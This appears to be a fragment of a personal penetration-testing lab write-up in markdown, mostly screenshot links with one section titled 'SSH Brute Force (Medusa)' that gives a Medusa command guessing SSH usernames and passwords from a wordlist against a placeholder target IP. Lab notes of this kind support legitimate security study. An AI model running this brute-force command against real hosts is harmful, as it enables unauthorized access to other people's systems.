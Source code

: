 ![alt text](<Screenshot 2025-04-13 144727.png>)

## 🔐SSH Brute Force (Medusa)
        medusa -h <target IP> -U /usr/share/wordlists/labworb.txt -P /usr/share/wordlists/labworb.txt -M ssh -V15
![alt text](<Screenshot 2025-04-13 145903.png>)
![alt text](<Screenshot 2025-04-13 145936.png>)
